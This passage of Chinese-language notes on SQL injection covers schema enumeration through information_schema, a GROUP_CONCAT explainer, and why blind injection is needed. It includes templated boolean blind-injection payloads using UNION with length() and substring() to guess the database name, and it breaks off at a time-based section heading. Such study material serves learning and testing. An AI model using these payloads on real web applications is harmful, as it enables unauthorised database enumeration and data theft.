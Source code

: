 2. 也可以使用另外一种方式，当确定好列数后，并确定每一个属性列的数据类型后
```SQL
-- 查看数据库版本
select @@version
-- 查看所有数据库名 -> schema_name
select * from information_schema.schemata
-- 查看数据库里的表 -> table_name
select * from information_schema.tables
-- 查看某个数据表中的列 -> column_nameSS
select * from information_schema.columns where table_name='xxx'
```
## SQL盲注
### 为什么有SQL盲注
之前的SQL注入攻击，一旦发起攻击，WEB应用会给予积极的反馈（显示基本信息）。
但很有时候，WEB应用只会根据查询返回查询是否正确/错误的信息——True OR False，而这种情况下就需要进行SQL盲注
### GROUP_CONCAT 与 GROUP BY
GROUP BY关键字可以根据一个或多个字段对查询结果进行分组，<font color=red> 每个分组标记相同的记录只会出现第一条</font>

GROUP_CONCAT会把每个分组的字段都显示出来

下面根据 tb_students_info 表中的 sex 字段进行分组查询，使用 GROUP_CONCAT() 函数将每个分组的 name 字段的值都显示出来。SQL 语句和运行结果如下
```SQL
SELECT 'sex', GROUP_CONCAT(name) FROM tb_students_info GROUP BY sex;
+------+----------------------------+
| sex  | GROUP_CONCAT(name)         |
+------+----------------------------+
| 女   | Henry,Jim,John,Thomas,Tom  |
| 男   | Dany,Green,Jane,Lily,Susan |
+------+----------------------------+
```
下面根据 tb_students_info 表中的 age 和 sex 字段进行分组查询。SQL 语句和运行结果如下
```SQL
SELECT age,sex,GROUP_CONCAT(name) FROM tb_students_info GROUP BY age,sex;
+------+------+--------------------+
| age  | sex  | GROUP_CONCAT(name) |
+------+------+--------------------+
|   21 | 女   | John               |
|   22 | 女   | Thomas             |
|   22 | 男   | Jane,Lily          |
|   23 | 女   | Henry,Tom          |
|   23 | 男   | Green,Susan        |
|   24 | 女   | Jim                |
|   25 | 男   | Dany               |
+------+------+--------------------+
```
先按照age字段进行分组，再把age记录按照sex字段进行分组

多个字段分组查询时，会先按照第一个字段进行分组。如果第一个字段中有相同的值，
MySQL 才会按照第二个字段进行分组。如果第一个字段中的数据都是唯一的，那么 MySQL 将不再对第二个字段进行分组。

GROUP_CONCAT单独使用，将组内的字符串连接成单个字符串
### 布尔盲注
length()，返回字符串长度，例如可以返回数据库名字的长度
```SQL
' union select 1,2,3 where length(database())={num} -- 
```
subtring(截取的字符串， 起始位置， 截取长度)
```SQL
' union select 1, 2, 3 where binary substring(database(), {num}, 1) = '{c}'#
```
### 时间盲注
